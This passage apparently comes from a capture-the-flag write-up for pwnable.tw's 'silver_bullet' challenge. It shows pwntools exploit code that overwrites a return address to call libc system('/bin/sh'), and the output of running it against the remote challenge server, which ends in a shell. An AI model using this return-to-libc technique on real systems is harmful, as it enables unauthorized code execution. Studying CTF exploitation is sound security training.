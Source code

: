 Super! So now we just have to repeat the whole proccess as mentioned above and call system('/bin/sh');

```python
# Spawn shell phrase
log.info("Started spawn shell phrase...")
create_bullet(b'A' * (BULLET_DESC_SZ - 1))
power_up(b'B')

payload = b'C' * 7
payload += p32(libc_base + libc.symbols['system']) + b'AAAA' + p32(libc_base + BINSH_OFST)
power_up(payload)

kill_beast()
p.interactive()
```

Let's try it out! [Full exploit](epx.py)

```bash
$ python3 exp.py remote
[+] Opening connection to chall.pwnable.tw on port 10103: Done
[*] Started leak libc phrase...
[*] [x] Leaked libc_base: 0xf75e5000
[*] Started spawn shell phrase...
[*] Switching to interactive mode
$ id
uid=1000(silver_bullet) gid=1000(silver_bullet) groups=1000(silver_bullet)
```

Nice, we just got a shell!
